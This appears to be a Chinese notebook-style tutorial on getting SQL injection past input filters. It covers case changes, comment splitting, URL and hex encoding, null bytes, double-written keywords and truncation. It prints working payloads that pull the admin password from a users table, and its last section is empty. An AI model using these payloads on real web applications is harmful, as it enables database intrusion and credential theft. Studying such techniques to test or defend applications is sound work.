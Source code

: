 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/rmwfjj73csr.png" width="600px" />
查询出来一共有三个字段。  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/bthfkyln4c5.png" width="600px" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


2. 使用内部连接注释
举例子：以下一句sql

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


可以改写成

```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```


.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码

用URL编码来逃避过滤。有以下一条sql语句

```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```


如果过滤器对“/*”进行了过滤，那么这条语句肯定是不能通过，随意可以将其转换为

```sql
%2f%2a*/union%2f%2a*/select%2f%2a*/password%2f%2a*/from%2f%2a*/tblUsers%2f%2a*/where%2f%2a*/uusername%2f%2a*/like%2f%2a*/'admin'
```


对关键字符进行url编码，从而实现过滤。如果一次不行们可以进行两次甚至多次url编码，但只要记住只是对关键字符进行url编码。其中为什么多次url编码可以实现，这个是由于web应用有时候多次解码

unicode编码方式  
由于unicode编码方式的复杂性，所以解码器是啊按照最近匹配原则进行匹配unicode匹配编码。

## 使用动态查询执行


简单来说，就是将sql语句存储到一个变量中，然后执行这条sql语句。其中的关键之处在于sql语句是字符串形式，这也就代表着有多种方法可以构造字符串。
1. 连接字符串
Oracel ： 'sel'||'et' $\rightarrow$ 'select'
Mysql : 'sel''ect' $\rightarrow$ 'select'

2. 使用ascii码
'select' $\rightarrow$ char(83)+char(69)+char(76)+char(69)+char(67)+char(84)

3. 使用sql字符串的ascii十六进制来代替字符串

```sql
select password from tblUsers
```


SQL SERVER 也可以按照以下形式进行构造

```
DECLARE @query varchar(100);
SELECT @query = 0x53454C454354202A2046524F4D2074626C7573657273
exec(@query)
```


其中 0x53454C454354202A2046524F4D2074626C7573657273就是SELECT * FROM tblusers的16进制。

## 使用空字符
由于过滤器一般都是存在于自生代码之外，比如WAF与IDS。而这些组件与原来的后台的编写语言是不同的，由于不同语言之间存在差异，可以使用这些微小差异进行绕过过滤。其中比较重要的一点就是可以使用空字符进行注入。原生过滤在遇到%00就会停止读取，也就能够绕过过滤了。比如

```sql
%00' union select password from tblusers where username='admin'--
```


从而实现空字符隔断注入


## 双写绕过注入
当前台不采用匹配过滤，而采用匹配删除的情况来使用的时候。比如and就会被删除and，那么则使用anand.这样子只有被过滤了才算成功注入。即从anand中删除and。变成了另外一个and。
举例，过滤了关键词or。  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/6qrx596cd79.png" width="600px" />

## 利用截断
过滤器通常会对输入数据截断，并且设置最大长度。这是为了防止缓冲区溢出攻击。而一般过滤器都是先对输入进行设置，比如将单引号转化成双引号，之后再进行截断。这个就有了可乘之机。
比如 单引号被转换成双引号并且只允许15个字符：
那么就可以设置成
select * from table where username=aaaaaaaaaaaaaa'
这样子经过处理后，还是原来的样子
select * from table where username=aaaaaaaaaaaaaa'

## 内联注入

```{.python .input}

```
